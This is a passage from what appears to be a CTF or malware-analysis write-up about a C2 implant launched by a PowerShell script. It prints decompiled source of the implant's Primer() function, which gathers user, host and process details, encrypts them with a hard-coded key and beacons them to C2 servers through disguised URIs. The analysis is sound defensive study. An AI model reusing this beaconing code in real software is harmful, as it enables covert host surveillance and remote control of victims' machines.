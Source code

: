 At this point i will report and try to summarize the main feature of this C2 that i'll call from the powershell script 'tmp7102591.exe'. 
A static analysis for me was enough to provide the information understand the capabilities and progress in the challenge.

### Primer()
Primer() function is one of the first invoked function. 
It's used to set program global variables by decrypting a base64 body that comes from "/Kettie/Emmie/Anni?Theda=Merrilee?c".
We can decrypt it as the KEY is hard-coded. The important variables are:
+ Key: a new base64 key that will be used to encrypt and the decrypt data over the entire flow
+ RandomURI/stringURLS: a list of strings and data that will be used to fake real communications
+ stringIMGS: list of images that will be used to hide command output in the communication

```java
private static void primer() {
    if (!(DateTime.ParseExact("2025-01-01", "yyyy-MM-dd", (IFormatProvider) CultureInfo.InvariantCulture) > DateTime.Now))
      return;
    Program.dfs = 0;
    string str1;
    try
    {
      str1 = WindowsIdentity.GetCurrent().Name;
    }
    catch
    {
      str1 = Environment.UserName;
    }
    if (Program.ihInteg())
      str1 += "*";
    string userDomainName = Environment.UserDomainName;
    string environmentVariable1 = Environment.GetEnvironmentVariable("COMPUTERNAME");
    string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
    int id = Process.GetCurrentProcess().Id;
    string processName = Process.GetCurrentProcess().ProcessName;
    Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
    string input = (string) null;
    string baseURL = (string) null;
    foreach (string str2 in Program.basearray)
    {
      string un = string.Format("{0};{1};{2};{3};{4};{5};1", (object) userDomainName, (object) str1, (object) environmentVariable1, (object) environmentVariable2, (object) id, (object) processName);
      string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
      baseURL = str2;
      string address = baseURL + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
      try
      {
        string enc = Program.GetWebRequest(Program.Encryption(key, un)).DownloadString(address);
        input = Program.Decryption(key, enc);
        break;
      }
      catch (Exception ex)
      {
        Console.WriteLine(string.Format(" > Exception {0}", (object) ex.Message));
      }
      ++Program.dfs;
    }
    string RandomURI = !string.IsNullOrEmpty(input) ? new Regex("RANDOMURI19901(.*)10991IRUMODNAR").Match(input).Groups[1].ToString() : throw new Exception();
    string stringURLS = new Regex("URLS10484390243(.*)34209348401SLRU").Match(input).Groups[1].ToString();
    string KillDate = new Regex("KILLDATE1665(.*)5661ETADLLIK").Match(input).Groups[1].ToString();
    string Sleep = new Regex("SLEEP98001(.*)10089PEELS").Match(input).Groups[1].ToString();
```